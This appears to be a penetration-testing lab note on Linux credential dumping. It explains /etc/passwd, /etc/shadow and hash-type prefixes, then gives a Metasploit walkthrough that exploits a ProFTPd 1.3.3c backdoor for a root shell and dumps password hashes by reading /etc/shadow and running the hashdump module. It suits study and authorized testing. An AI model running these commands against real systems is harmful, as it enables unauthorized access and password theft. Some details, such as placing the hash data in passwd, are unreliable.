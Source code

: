 ```yaml
---
description: Dumping Linux Password Hashes
---
```


# D - Linux Credential Dumping

## **Linux Password Hashes**

* Linux has multi-user support and as a result, multiple users can assess the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd
* We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
* All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
* The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.
* The passwd file give us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

| Value | Hashing Algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |

## **Practical Demonstration**

1 - identify ip a target.

2 - `nmap -sV $ip`&#x20;

3 search ProFTPd 1.3.3c.

```bash
# service postgresql start && msfconsole
search ProFTPd
use /exploit/unix/ftp/proftpd_133c_backdoor
options
setg RHOSTS $ip
exploit
# we get a cmd shell session, which we can upgrade to a meterpreter session.
bin/bash -i
# we get root bash session.
ctrl+z  # minimize the session
sessions  # list all sessions.
sessions -u 1  # upgrade to a meterpreter session.
sessions 2  # switch to the new meterpreter session.
sysinfo
getuid  # uid is set to (uid=0) which is root.

# method 1
cat /etc/shadow # dumps the password hash.

# method 2
search hashdump # search the hashdump module in metasploit.
use post/linux/gather/hashdump
options
set SESSIONS 2
run  # dumps list of users and their hashes.
```




